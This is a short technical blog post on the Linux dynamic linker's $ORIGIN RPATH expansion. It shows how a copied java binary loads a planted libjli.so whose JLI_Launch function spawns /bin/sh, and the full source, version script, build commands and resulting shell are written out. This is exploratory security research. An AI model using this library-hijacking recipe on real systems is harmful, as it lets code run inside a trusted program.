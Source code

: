 ```yaml
---
title: "Having fun and really no profit with $ORIGIN expansion variable in Java"
date: 2017-01-30T17:22:16+02:00
draft: false
toc: false
images:
tags:
  - elf
  - linux
  - low-level
  - shared-library
---
```


Having fun and really no profit with $ORIGIN expansion variable in Java
gennaio 30th, 2017

Days ago I was reading this [0] interesting article about the dynamic linker
expansion variables, and so I tought it would be fun to search for binaries
with the RPATH dynamic tag containing the $ORIGIN variable.

So digging through dynamic tags using `eu-readelf -d` I found that the java
ELF binary has the following RPATH:

```text
Library rpath: [$ORIGIN/../lib/amd64/jli:$ORIGIN/../lib/amd64]
```

Using `ldd` comes up that java searches this paths looking for the shared
object (for which I dunno really the purpose yet):

```text
libjli.so => /home/$USER/jdk1.8.0_65/jre/bin/../lib/amd64/jli/libjli.so
```

So my attempt to mess with the $ORIGIN var was to create on the same level
of the jdk directory a directory called `./bin` containing an hard-link or even
a copy of the java binary, and a directory tree on the same level of `bin`,
which had the following path:
`./lib/amd64/jli`.

Trying to run the java binary from the new `./bin/` path happened exactly what I wanted to
see:

```bash
./bin/java: error while loading shared libraries: libjli.so: cannot open shared
object file: No such file or directory`
```

So ok, let's build a shared object called that name into `lib/amd64/jli`
and see what happens...

```bash
# cat libjli.c 
int foobar(void)
{
	return 0x29a;
}
```

```bash
gcc -o libjli.so -shared -fPIC libjli.c
```

And now we try to run again the java binary:
  
```bash
./bin/java: /tmp/spike/java/bin/../lib/amd64/jli/libjli.so: no version
information available (required by ./bin/java)
./bin/java: relocation error: ./bin/java: symbol JLI_Launch, version
SUNWprivate_1.1 not defined in file libjli.so with link time reference
```

Good, looking at the main function of the java binary we find a call
to the `JLI_Launch` function:
`0x0000000000400691 <+113>:	call   0x400520 <JLI_Launch@plt>`

So we redefine our fake `libjli.so` adding the `JLI_Launch` function
and also we export the required versioning info.

```bash
# cat libjli.c 
#include 

void JLI_Launch(void)
{
	system("/bin/sh");
}
```

And now a simple version script for the linker:

```bash
#cat libjli.map
SUNWprivate_1.1 {
	global:
		JLI_Launch;		
};
```

Finally we recompile the shared object applying the linker script:

```bash
gcc -c libjli.c -fPIC
gcc -o libjli.so -shared -Wl,--version-script=libjli.map
```

Now trying to execute the java binary from the ./bin/ path:

```bash
[spike@zombie java]$ ./bin/java
sh-4.3$
```

That's all folks!

[0] https://backtrace.io/blog/blog/2016/06/29/exploiting-elf-expansion-variables/


